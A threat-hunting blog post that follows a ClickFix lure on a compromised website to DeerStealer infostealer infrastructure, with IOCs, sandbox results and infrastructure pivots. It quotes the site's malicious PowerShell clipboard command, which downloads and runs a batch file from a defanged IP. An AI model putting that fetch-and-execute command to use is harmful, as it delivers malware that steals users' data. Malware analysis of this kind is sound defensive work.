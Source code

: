 ```yaml
---
layout: post
title:  "Comp'd Domain - DeerStealer"
date:   2025-09-09 21:00:00 +1000
categories: hunting
---
```


<style>
  body { font-size: 16px; }
  body {font-family: 'Inter', sans-serif}
  h1 { font-size: 19px !important; }
  h2 { font-size: 17px !important; }
  h3 { font-size: 15px !important; }
</style>

## Overview

Grabbed a Clickfix IOC from Validin, following the breadcrumbs to see if I can attribute it to an adversary/malware strain.

Going to through out all IOCs and stuff because why not.

### Website serving Clickfix

"quirkyrealty[.]com"

Resolves to an Indian IP. Hosted by 'Web Werks India Pvt. Ltd. was an Indian data center and cloud solutions provider'
![alt text](/images/india_resolved.PNG)

Google dork see what we can get. Looks like a legit business? Well a not very legit one. 
![alt text](/images/quirky_google.PNG)

Booting up my VM to hit the website to see how this is being served.

![alt text](/images/landing_page.PNG)

Alright few points here from the screenshot above.
- No redirects/iframes/weird JS
- Malicious JavaScript exists within the first HTTP request to the domain
- Payload command written in cleartext (whoop whoop)
- Can see a juicy IP and the file 'ct.bat' that is downloaded from there.

![alt text](/images/malicious_js.PNG)

Here is the malicious .JS that copies the command to the user's clipboard
- Uses document.execCommand

Website is likely full comp'd or not legit in the first place.

Here is the full command from the ``command`` variable in the .JS

``const command = `powershell -c "Invoke-WebRequest -Uri 'hXXp://80[.]253[.]249[.]186:5504/ct.bat' -OutFile \"%temp%\ct.bat\" -UseBasicParsing; Start-Process \"%temp%\ct.bat\""`;``

### .Bat? 

``const command = `powershell -c "Invoke-WebRequest -Uri 'hXXp://80[.]253[.]249[.]186:5504/ct.bat' -OutFile \"%temp%\ct.bat\" -UseBasicParsing; Start-Process \"%temp%\ct.bat\""`;``

This is our payload command. Lets remove 'Start-Process', the const declaration and run it in my VM to save the file in temp.

``Invoke-WebRequest -Uri "hXXp://80[.]253[.]249[.]186:5504/ct.bat" -OutFile "C:\Users\ronald\Desktop\NewClicky\safe-file.txt"``

Alright well this is depressing. The file doesn't live on the web server anymore.

![alt text](/images/file_down.PNG)

But if we whack the IP into VT and check communicating files we may be able to see a communicating file that is active.

![alt text](/images/vt_file_comm.PNG)

Now let's have a go at pulling this from the same port. As 'hj.bat' was seen today (22nd Sept)

![alt text](/images/HJ.PNG)

Success! Wooo hooo. Alright let's break this down.

1. Launches powershell, then cmd
2. Sets variables for stage 2 download. (File, IP and Target Directory)
3. Attempts to use curl to download the .msi file
4. If it fails uses inbuilt powershell command WebClient to download
5. Runs the .msi file

### .Msi?

So let's pull it down. Using curl. As thats what the script does. Except we don't want to run it, clearly.

![alt text](/images/pull_second.PNG)

Easy peasy. Let's open this up, safely, of course. 

![alt text](/images/file_size.PNG)

Got a hash. 4.1mbs of size. See what VT says.

![alt text](/images/vt_result_deer.PNG)
![alt text](/images/yara_deer.PNG)

YARA rules are hitting for Deer Stealer. Never heard of that before.

Looks like it's MaaS again. Malware developed and maintained by the user @LuciferXfiles. 

Looks to behave like every other Infostealer. Jump in snatch and grab, exfil data, setup a C2.

Lets try and pick this apart.

### DeerStealer

Lets see how deep this goes. 

![alt text](/images/msi_extract_result.PNG)

First off I've ran msiexec in administrative mode to extract the contents of the installer without executing it.

![alt text](/images/msi_exec_files.PNG)

Now, we have four files to play around with. Most of the juice is in ``weav.wsvl`` However, that is not in a readable format.

So let's start with the .dll and see what we can find.

![alt text](/images/nfapi_vt.PNG)

It's known malicious. Cool, can confirm we are on the right rack.

After running strings on the .dll we get some interesting findings. 

Strings output

### IP? What are you...

We can see that 'ct.bat' is being served from the IP 80[.]253[.]249[.]186 at port 5504. 

Quick DNSLytics lookup.
![alt text](/images/clickfix_payload_ip.PNG)

What services are running on the IP?

![alt text](/images/shodan_result.PNG)

Fair few... that RCE CVE is juicy...

Anyhow, interesting that we can't see port 5504 here. Because that is the port that historically served 'ct.bat'

Hunt.io states it was last seen on the 9th of September. So I am one day late to the party. 

![alt text](/images/hunt.io_result.PNG)

Without any HTTP response body we can't do much else. Historical data is dry for this port on Censys, Validin and huntio.

For pivoting I'll look into RDP (3389)

A popular pivot from here is the SSL cert SHA_256 hash. Usually you would have to run an OpenSSL command to calculate this. But Validin has already calculated it for us.

![alt text](/images/validin_sha_256.PNG)

Now when we search this hash we have another IP.

![alt text](/images/validin_sha_result.PNG)

Snazzy. This gives us very high confidence they're related as they use the same RDP SSL cert!

Alright, when I whack this IP into VT I get some cool results.

![alt text](/images/VT_result.PNG)
